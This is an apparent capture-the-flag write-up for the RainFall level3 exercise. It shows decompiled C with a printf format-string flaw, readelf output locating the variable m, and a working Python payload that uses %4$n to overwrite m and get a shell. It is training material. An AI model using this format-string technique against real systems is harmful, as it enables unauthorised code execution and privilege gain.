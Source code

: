 ## Solutions

Okay first we decompile it

```c

int m;

void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}



void main(void)

{
  v();
  return;
}
```

we see that it have an exploit with printf called format string exploit, we can use this to change the value of m to 0x40 (64 in decimal) to pop the shell

first we have to locate the adress of M, to do so we use readelf

```bash
level3@RainFall:~$ readelf -s level3 | grep m
Symbol table '.dynsym' contains 10 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     4: 00000000     0 FUNC    GLOBAL DEFAULT  UND system@GLIBC_2.0 (2)
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
     6: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.0 (2)
Symbol table '.symtab' contains 72 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    32: 08049884     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    34: 08048480     0 FUNC    LOCAL  DEFAULT   13 frame_dummy
    56: 00000000     0 FUNC    GLOBAL DEFAULT  UND system@@GLIBC_2.0
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    60: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    66: 0804988c     4 OBJECT  GLOBAL DEFAULT   25 m
    69: 0804851a    13 FUNC    GLOBAL DEFAULT   13 main
```

the address of m in memory is 0x0804988c --> \x8c\x98\x04\x08

to payload is crafted like this

TARGET ADRESS + 60 '|' + %4$n

60 '|' because value to overwrite(64) - len of address(4) = 60

%n is a printf flag that put the len of the input inside the memory address specified

%(number)$n is to locate the address \x8c\x98\x04\x08 specified in the local argument passed to printf, the 4 can be variable depending on the state of the stack during the exploitation

[more detail here](https://ir0nstone.gitbook.io/notes/types/stack/format-string)

```bash
(python -c 'print ("\x8c\x98\x04\x08" + "|" * 60 + "%4$n")'; cat) | ./level3
```